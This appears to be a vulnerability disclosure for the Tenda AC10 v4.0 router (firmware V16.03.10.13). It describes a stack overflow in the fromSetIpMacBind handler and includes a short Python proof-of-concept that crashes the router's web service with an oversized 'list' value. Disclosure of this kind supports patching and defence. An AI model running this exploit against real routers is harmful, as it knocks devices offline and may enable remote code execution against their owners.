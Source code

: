 # Tenda Router Vulnerability on fromSetIpMacBind function
> vendor:Tenda
>
> product:AC10
>
> version:v4.0 V16.03.10.13
>
> type:Stack Overflow  

# Overview 
- Firmware download website: https://www.tenda.com.cn/download/detail-3506.html

## Vulnerability Details

The Tenda AC10V4.0 V16.03.10.13 has a buffer overflow vulnerability. The vulnerability is triggered in the `fromSetIpMacBind` function when it retrieves the value of the list parameter at line 57, and ultimately causes an overflow at line 67 in the `FUN_0049e098` function during the sscanf call. As a result, by requesting the page, an attacker can easily execute a **denial of service** attack or **remote code execution**.
![scqv_websgetvar](assets/SetIpMacBind_websgetvar.png)
![scqv_set_clinet_qos](assets/FUN_0049e098.png)

## Recurring vulnerabilities and POC

Run this poc and you will see the service crash. The service will keep loading until it crashes.

```python
import requests
url = "http://192.168.1.100:80/goform/SetIpMacBind"
bindnum_value = "1"
list_value = "a" + "\x12" * 500 + "z" * 500  

data = {
    "bindnum": bindnum_value,
    "list": list_value
}

response = requests.post(url, data=data)
```

![python-poc-crash](crash_images/python_crash_49e098.png)

![httpd-segmentfault](crash_images/httpd_crash.png)


## Discoverer
The vulnerability was discovered by Professor Wei Zhou's team (IoTS&P Lab) from the School of Cyber Science and Engineering at Huazhong University of Science and Technology.
漏洞发现者：华中科技大学 周威老师团队(IoTS&P Lab)